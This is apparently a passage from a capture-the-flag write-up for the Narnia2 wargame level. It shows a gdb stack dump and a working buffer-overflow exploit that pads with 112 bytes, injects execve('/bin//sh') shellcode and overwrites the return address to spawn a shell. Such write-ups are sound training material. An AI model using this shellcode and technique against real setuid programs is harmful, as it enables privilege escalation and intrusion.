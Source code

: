 >0x41414141 in ?? ()
>(gdb) x/300x $esp
>0xffffd480:	0x00000000	0xffffd524	0xffffd530	0xf7fdb860
>0xffffd490:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x08048249
>0xffffd4a0:	0x00000001	0xffffd4e0	0xf7fedc16	0xf7ffdac0
>0xffffd4b0:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
>0xffffd4c0:	0xffffd4f8	0x5b801364	0x69950574	0x00000000
>0xffffd4d0:	0x00000000	0x00000000	0x00000002	0x08048360
>0xffffd4e0:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
>0xffffd4f0:	0x00000002	0x08048360	0x00000000	0x08048381
>0xffffd500:	0x0804845d	0x00000002	0xffffd524	0x080484d0
>0xffffd510:	0x08048540	0xf7fee590	0xffffd51c	0xf7ffd908
>0xffffd520:	0x00000002	0xffffd674	0xffffd682	0x00000000
>0xffffd530:	0xffffd713	0xffffd726	0xffffd759	0xffffd764
>0xffffd540:	0xffffd774	0xffffd7c5	0xffffd7d7	0xffffd809
>0xffffd550:	0xffffd813	0xffffdd34	0xffffdd62	0xffffddb0
>0xffffd560:	0xffffddbe	0xffffddc9	0xffffdde1	0xffffde23
>0xffffd570:	0xffffde32	0xffffde3c	0xffffde4d	0xffffde64
>0xffffd580:	0xffffde79	0xffffde82	0xffffde95	0xffffdea0
>0xffffd590:	0xffffdea8	0xffffded4	0xffffdee1	0xffffdf43
>0xffffd5a0:	0xffffdf80	0xffffdf8d	0xffffdf9a	0xffffdfb3
>0xffffd5b0:	0x00000000	0x00000020	0xf7fded00	0x00000021
>0xffffd5c0:	0xf7fde000	0x00000010	0x0fabfbff	0x00000006
>0xffffd5d0:	0x00001000	0x00000011	0x00000064	0x00000003
>0xffffd5e0:	0x08048034	0x00000004	0x00000020	0x00000005
>0xffffd5f0:	0x00000008	0x00000007	0xf7fe0000	0x00000008
>0xffffd600:	0x00000000	0x00000009	0x08048360	0x0000000b
>0xffffd610:	0x00000000	0x0000000c	0x00000000	0x0000000d
>0xffffd620:	0x00000000	0x0000000e	0x00000000	0x00000017
>0xffffd630:	0x00000000	0x00000019	0xffffd65b	0x0000001f
>0xffffd640:	0xffffdfea	0x0000000f	0xffffd66b	0x00000000
>0xffffd650:	0x00000000	0x00000000	0xd4000000	0x89a623a1
>0xffffd660:	0x2d4dd214	0x1ea663aa	0x69553644	0x00363836
>0xffffd670:	0x00000000	0x6f6f722f	0x616e2f74	0x61696e72
>0xffffd680:	0x41410032	0x41414141	0x41414141	0x41414141
>0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6f0:	0x52524141	0x52525252	0x52525252	0x52525252
>0xffffd700:	0x52525252	0x52525252	0x52525252	0x41415252
>0xffffd710:	0x53004141	0x415f4853	0x544e4547	0x4449505f
>0xffffd720:	0x3439333d	0x50470030	0x47415f47	0x5f544e45
>0xffffd730:	0x4f464e49	0x6f722f3d	0x2e2f746f	0x68636163
>```
>
> Now let's take the ```R``` and replace them with the shellcode and then point back to ```0xffffd6f0``` where we see the begining of those ```R``` returning.
>
>```
>(gdb) run $(python -c 'print "A"*112+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xf0\xd6\xff\xff"')
>Starting program: /root/narnia2 $(python -c 'print "A"*112+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xf0\xd6\xff\xff"')
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>process 50581 is executing new program: /bin/dash
>warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
>Architecture of file not recognized.
>```
>